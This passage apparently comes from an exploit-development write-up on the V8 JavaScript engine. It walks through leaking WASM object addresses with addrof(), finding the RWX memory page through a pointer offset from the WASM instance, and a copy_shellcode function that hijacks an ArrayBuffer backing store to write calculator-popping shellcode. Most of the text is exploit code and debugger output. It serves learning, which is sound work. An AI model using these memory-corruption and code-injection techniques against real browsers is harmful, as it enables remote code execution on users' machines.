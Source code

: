 If we leak the addresses of `wasm_mod`, `wasm_instance` and `f`, none of them are actually located in the RWX page, so we can't simply `addrof()` and apply a constant offest. Instead, we're gonna comb memory for all references to the RWX page. The WASM objects likely need a reference to it of sorts, so it's possible a pointer is stored near in memory.

```javascript
console.log("[+] WASM Mod at 0x" + addrof(wasm_mod).toString(16));
console.log("[+] WASM Instance at 0x" + addrof(wasm_instance).toString(16));
console.log("[+] F at 0x" + addrof(f).toString(16));
```

```javascript
gef➤  run --allow-natives-syntax --shell exploit2.js
[+] Address of Arbitrary RW Array: 0x22322b10f919
[+] WASM Mod at 0x22322b10fcc9
[+] WASM Instance at 0x45c390e13a1
[+] F at 0x45c390e1599
V8 version 7.5.0 (candidate)
d8> ^C
gef➤  vmmap
[...]
0x0000311254159000 0x000031125415a000 0x0000000000000000 rwx
[...]
gef➤  search-pattern 0x0000311254159000
[+] Searching '\x00\x90\x15\x54\x12\x31\x00\x00' in memory
[+] In (0x45c390c0000-0x45c39100000), permission=rw-
  0x45c390e1428 - 0x45c390e1448  →   "\x00\x90\x15\x54\x12\x31\x00\x00[...]" 
[+] In '[heap]'(0x5555562f9000-0x5555563c6000), permission=rw-
  0x5555563a1e38 - 0x5555563a1e58  →   "\x00\x90\x15\x54\x12\x31\x00\x00[...]" 
  0x5555563acfe0 - 0x5555563ad000  →   "\x00\x90\x15\x54\x12\x31\x00\x00[...]" 
  0x5555563ad000 - 0x5555563ad020  →   "\x00\x90\x15\x54\x12\x31\x00\x00[...]" 
  0x5555563ad120 - 0x5555563ad140  →   "\x00\x90\x15\x54\x12\x31\x00\x00[...]"
```

The last four are in the heap, so unlikely, but the first instance is near to the `wasm_instance` and `f`. The offset between `wasm_instance` and that offset appears to be `0x87`. In reality it is `0x88` (remember pointer tagging!), but that works for us.

```javascript
let rwx_pointer_loc = addrof(wasm_instance) + 0x87n;
let rwx_base = arb_read(rwx_pointer_loc);
console.log("[+] RWX Region located at 0x" + rwx_base.toString(16));
```

It spits out the right base, which is great. Now we just want to get shellcode for popping calculator as well as a method for copying the shellcode there. I'm gonna just (once again) shamelessly nab Faith's implementations for that, which are fairly self-explanatory.

```javascript
function copy_shellcode(addr, shellcode) {
    // create a buffer of 0x100 bytes
    let buf = new ArrayBuffer(0x100);
    let dataview = new DataView(buf);
    
    // overwrite the backing store so the 0x100 bytes can be written to where we want
    // this is similar to the arb_write() function
    // but we have to redo it because we want to write way more than 8 bytes
    let buf_addr = addrof(buf);
    let backing_store_addr = buf_addr + 0x20n;
    initial_arb_write(backing_store_addr, addr);

    // write the shellcode 4 bytes at a time
    for (let i = 0; i < shellcode.length; i++) {
	dataview.setUint32(4*i, shellcode[i], true);
    }
}

// https://xz.aliyun.com/t/5003
```